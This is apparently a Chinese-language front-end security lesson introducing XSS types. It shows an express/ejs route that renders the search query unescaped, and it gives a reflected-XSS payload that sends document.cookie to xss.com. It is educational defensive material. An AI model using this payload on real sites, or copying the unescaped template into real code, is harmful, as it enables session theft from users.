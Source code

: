 随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。

Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。

### 跨站脚本（Cross Site Scripting，XSS）

理论上跨站脚本的首字母缩写应该为“CSS”，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

#### XSS 攻击示例

一般我们把 XSS 分为**反射型、存储型、DOM 型** 3 种类型。

反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。

下面通过一个简单的例子加以说明。

服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。

复制代码

```
<!-- ejs 模板 --> 

你搜索了：<%-search%>

// 服务端处理逻辑 

app.get('/reflection', function(req, res){ 

  res.render('reflection', { 

    search: req.query.search 

  }); 

})
```

比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。

复制代码

```
<script> 

s=document.createElement('script'); 

s.src=`xss.com?cookie=${document.cookie}`; 

document.head.append(s) 

</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。
